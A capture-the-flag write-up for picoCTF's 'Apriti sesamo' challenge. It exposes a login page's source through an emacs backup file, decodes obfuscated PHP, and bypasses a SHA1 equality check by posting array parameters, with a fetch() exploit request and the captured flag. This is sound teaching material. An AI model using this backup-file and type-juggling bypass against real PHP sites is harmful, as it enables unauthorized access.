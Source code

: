 ## Apriti sesamo

I think this is my favourite challenge so far, except for the fact that it's pretty hard to get started without the hint.

The webpage is a simple username and password box, along with a large ASCII message saying "log in if you can". Entering any incorrect credentials returns a message saying "Failed! No flag for you".

The two hints are "Backup files" and "Rumor has it, the lead developer is a militant emacs user". Considered together, it's clear these two hints are referring to how emacs creates backup files with a `~` at the end of the filename.

Changing the URL from `http://verbal-sleep.picoctf.net:58281/impossibleLogin.php` to `http://verbal-sleep.picoctf.net:58281/impossibleLogin.php~` reveals an old version of the webpage, with some of the password-checking logic visible in the source code:

```html
<!--?php
if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])){$yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];$rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];if($yuf85e0677==$rs35c246d5){echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");}else{if(sha1($yuf85e0677)===sha1($rs35c246d5)){echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));}else{echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");}}}?-->
```

I uncommented the PHP code, formatted it, and decoded the base64 strings for better readability:

```php
<?php
    if (isset($_POST[username]) && 
        isset($_POST[pwd])) {
        
        $yuf85e0677 = $_POST[username];
        $rs35c246d5 = $_POST[pwd];
        
        if ($yuf85e0677 == $rs35c246d5) {
            echo <br/>Failed! No flag for you
        } else {
            if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
                echo file_get_contents(../flag.axt);
            } else {
                echo <br/>Failed! No flag for you
            }
        }
    }
?>
```

The code is pretty simple: if the username and password are the same, it returns "Failed! No flag for you". However, if the username and password are different, but the SHA1 hashes of the two are equal, it reads the contents of `../flag.axt` and returns it.

At first, I tried to find a collision for the SHA1 hash - about 8 years ago, someone found a [SHA1 collision](https://shattered.io/) that allowed them to create two different PDFs with the same SHA1 hash. However, due to the very small number of SHA1 collisions having been discovered, I realized that this probably wasn't the intended solution (and didn't feel like figuring out how to submit a PDF as a password).

Since pressing Login calls a POST request, I was able to test various inputs using the browser's developer tools. PHP's `sha1` function is only designed to work on strings, and it returns `NULL` if it's given an invalid input. By simply changing the body of the POST request from `username=abc&pwd=xyz` to `username[]=abc&pwd[]=xyz`, we are able to change the types of the inputs - the arrays are not equal, but their hashes are (`NULL === NULL`).

```js
fetch("http://verbal-sleep.picoctf.net:58281/impossibleLogin.php", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "en-CA,en-GB;q=0.9,en-US;q=0.8,en;q=0.7",
    "cache-control": "max-age=0",
    "content-type": "application/x-www-form-urlencoded",
    "upgrade-insecure-requests": "1",
    "Referer": "http://verbal-sleep.picoctf.net:58281/impossibleLogin.php",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "username[]=abc&pwd[]=xyz",
  "method": "POST"
}).then(response => response.text())
.then(data => {
  console.log(data);
})
.catch(error => {
  console.error("Error:", error);
});
```

```html
picoCTF{w3Ll_d3sErV3d_Ch4mp_5292ca30}
```